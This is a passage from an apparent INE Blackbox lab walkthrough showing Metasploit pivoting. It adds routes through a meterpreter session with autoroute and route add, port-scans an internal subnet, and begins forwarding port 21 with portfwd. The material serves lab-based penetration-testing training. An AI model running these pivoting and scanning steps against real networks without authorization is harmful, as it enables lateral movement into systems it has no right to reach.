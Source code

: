 Command

run autoroute -h

![](../media/Blackbox%20lab%20INE_16.png)

Add the route to IP range 192.69.228.0/24

![](../media/Blackbox%20lab%20INE_17.png)

Command

run autoroute -s 192.69.228.0 -n 255.255.255.0

Background the meterpreter session and check if the route is added successfully to the metasploit's routing table.

Command

background

route print

The route is added successfully. We could use the "route" command to add the routing table to the metasploit framework

Command

route add 192.69.228.0 255.255.255.0 1

Syntax:routeadd(make a new route)subnetnetmasksid(meterpreter session ID)

Step 13: We will run auxiliary TCP port scanning module to discover any available hosts (From IP .3 to .10). And, if any of ports 80, 8080, 445, 21 and 22 are open on those hosts.

Command

use auxiliary/scanner/portscan/tcp

set PORTS 80, 8080, 445, 21, 22

set RHOSTS 192.69.228.3-10

exploit

![](../media/Blackbox%20lab%20INE_18.png)

We have discovered one host i.e. 192.69.228.3. Ports 21 (FTP) and 22 (SSH) are open on this host.

Step 14: In the meterpreter session there is an utility "portfwd" which allows forwarding remote machine port to the local machine port. We want to target port 21 of that machine so we will forward remote port 21 to the local port 1234.

Interact with the meterpreter session and forward the remote port to local machine.

Check portfwd meterpreter command help option.

Command

session -i 1

portfwd -h
